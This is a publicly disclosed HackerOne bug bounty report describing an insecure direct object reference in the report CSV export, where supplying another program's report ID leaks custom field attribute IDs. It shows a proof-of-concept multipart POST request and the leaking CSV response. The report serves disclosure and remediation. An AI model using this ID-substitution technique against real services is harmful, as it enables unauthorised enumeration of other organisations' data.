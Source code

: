 # IDOR in Report CSV export discloses the IDs of Custom Field Attributes of Programs

## Report Details
- **Report ID**: 510759
- **URL**: https://hackerone.com/reports/510759
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-03-15T19:04:05.112Z
- **Disclosed**: 2019-09-06T17:42:08.964Z

## Reporter
- **Username**: jobert
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
Specifying a report ID of another team when requesting a CSV export leaks the ID of the Custom Field Attribute in the CSV header.

**Request**
```
POST /reports/export HTTP/1.1
Host: localhost:8080
...

----------868143055
Content-Disposition: form-data; name="report_ids[]"

17
----------868143055
Content-Disposition: form-data; name="report_ids[]"

118
...
```

**Response**
```
HTTP/1.1 200 OK
...

id,title,severity_rating,severity_score,state,substate,weakness,reported_at,first_response_at,triaged_at,closed_at,awarded_at,assigned,reporter,bounty,bonus,public,reference,reference_url,structured_scope,original_report_id,custom_field_1,custom_field_2,custom_field_3,custom_field_4,custom_field_5,custom_field_6
17,Brute force in login form,low,,open,new,HTTP Response Splitting,2019-02-07 02:49:29 UTC,2019-02-07 02:49:30 UTC,,2019-02-07 02:49:30 UTC,,,sandra,,,no,,,https://profile-photos.hackerone-user-content.com/,,"'[a](https://google.com)',a",d,,,,
```

In the above request, report ID 17 belongs to the current user's program, which is why Custom Field 1, 2, 3, 4, and 6 are included. Custom Field 5 belongs to the Program for Report ID 118. The current user does not have access to this program, but the Custom Field is still included in the header. The program also doesn't have the feature toggle enabled, which means that this is currently exploitable on hackerone.com.

## Impact

This can be used to get an exact count of Program Reports for Programs that have at least one attribute. This is currently exploitable on hackerone.com. However, as Custom Fields has not been released to other programs besides our own, there is currently no sensitive data being exposed.

## Attachments
No attachments
